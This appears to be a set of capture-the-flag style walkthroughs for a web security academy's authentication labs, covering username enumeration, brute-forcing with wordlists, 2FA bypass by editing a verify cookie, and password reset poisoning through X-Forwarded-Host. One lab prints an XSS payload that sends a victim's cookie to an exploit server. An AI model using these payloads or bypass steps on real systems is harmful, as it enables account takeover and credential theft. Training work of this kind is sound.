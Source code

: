 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener`` with intercept the requests to burp
2. click Forgot password
3. check email you will found the forgot password link

```url
https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password?temp-forgot-password-token=gdqz0wd8rbjy5naoxidh5gh986avyo73
```
  
4. use it to change password
5. now go to **``http history ``** in burp

```http
POST /forgot-password HTTP/2
Host: 0a12002d04f669c8804203db001d00de.web-security-academy.net
Cookie: session=Jeo1T3SAvjuL5M1hPBCX7juYaqJvr11U
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a12002d04f669c8804203db001d00de.web-security-academy.net
Referer: https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


username=wiener
```

> ### change **``wiener``** to **``carlos``** and put **``X-Forwarded-Host``** header to your exploit server 

```http
X-Forwarded-Host: exploit-0a4500a80403694b801a029301f3005a.exploit-server.net

username=carlos
```

see logs 

<img width="1857" height="114" alt="image" src="https://github.com/user-attachments/assets/f55d2a68-86b7-4f93-9c76-27c9f02e3031" />

```url
/forgot-password?temp-forgot-password-token=z137ea4t8oymjlqytibtexwwy0srey8z
```

> ## now add new password to carlos and login 

<img width="1375" height="668" alt="image" src="https://github.com/user-attachments/assets/04c8bafe-f425-44d3-bbc1-2da500842d18" />

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### THE REAL USERNAME WILL APPEAR ERROR: **`You have made too many incorrect login attempts. Please try again in 1 minute(s).`**


> ### SO USERNAME IS **`acceso`**





<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>








<details>
  <summary>Lab: 2FA broken logic</summary>

<img width="1102" height="173" alt="image" src="https://github.com/user-attachments/assets/d701902a-1edd-4370-9cb7-e6df9b3dee61" />

---

1. login to your account **`wiener : peter`**
2. <img width="1296" height="613" alt="image" src="https://github.com/user-attachments/assets/df3add31-4a20-4768-a8b0-29c926dd4e32" />

```http
GET /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> ### change **`wiener`** to `carlos` and send the request

```http
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=carlos
```

<img width="1539" height="753" alt="image" src="https://github.com/user-attachments/assets/cacb8b0c-b2b9-448e-829a-35fd0fb62a3f" />



> ### now the website send the **`2fa`** to carlos

> #### logout form your account and login to it again but don't write your **`2FA`** code and send the request to intruder

<img width="782" height="279" alt="image" src="https://github.com/user-attachments/assets/2b05d78d-45c0-4d15-b16c-e186a99a8e89" />

```http
POST /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=U0GvMCS0BxfbwbJ8iMImN16k1qfpKw5w; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0af700e5033811f784723b2500240055.web-security-academy.net
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


mfa-code=123456
```

> ### change **`wiener`** to `carlos`
>
> add **`123456`** as payload and set `payload type` brute forcer 

<img width="1876" height="758" alt="image" src="https://github.com/user-attachments/assets/79203d2a-2f9d-41b1-8885-39823c515aa0" />

> ### see **``302``**

<img width="1703" height="815" alt="image" src="https://github.com/user-attachments/assets/a0105171-2c54-48e6-bce6-e145c8bd40b1" />

> click **`view response in browser`**  

<img width="1178" height="552" alt="image" src="https://github.com/user-attachments/assets/b3e1371f-3053-42ca-a6ce-f7cc89da9ccb" />

<img width="1890" height="838" alt="image" src="https://github.com/user-attachments/assets/bbdf9caa-d367-4366-8b5a-f96d9fe7e1f0" />

<img width="1417" height="822" alt="image" src="https://github.com/user-attachments/assets/884e0d3c-2b5f-4a11-9a57-718c7f7892ba" />

<img width="1565" height="749" alt="image" src="https://github.com/user-attachments/assets/7294253e-6ed6-4bc1-9061-224ac2d471b4" />

  
</details>










<details>
  <summary>Lab: Password brute-force via password change</summary>

```
old pass       neww pass 1        new pass 2
-----------------------------------------------------------------------------------
❌                🟩                 🟩        ===> will return to /login

-----------------------------------------------------------------------------------

🟩                🟩                 ❌        ===> New passwords do not match

-----------------------------------------------------------------------------------

❌                🟩                 ❌        ===> Current password is incorrect

 ```

> ### so if we don't know the old password and try to put new one will make use retrun to **`/login`** so we can't to brute force to bypass it we will found that if we put ``not matched new passwords it tell us that old passowrd is not correct`` so we can brute force 


----

<img width="1883" height="731" alt="image" src="https://github.com/user-attachments/assets/3ca615ba-e7da-4616-90d6-667fa218dc4d" />

```
username=carlos&current-password=plapla&new-password-1=123&new-password-2=1234
```

``set grep/match to New passwords do not match``

<img width="741" height="467" alt="image" src="https://github.com/user-attachments/assets/edcf439f-9e2d-4aa9-b168-8d1bad8ccc42" />

---

<img width="1511" height="719" alt="image" src="https://github.com/user-attachments/assets/17bafaf1-8162-491c-bc3d-5b99e2ce663b" />

> `found that in response say New passwords do not match that is mean the old passowrd is true put the new are not match so we know the passowrd` :

```
carlos : joshua
```

<img width="1295" height="600" alt="image" src="https://github.com/user-attachments/assets/02002043-0a12-4124-87e6-0aa249a622d0" />


  
</details>
















----- 
















































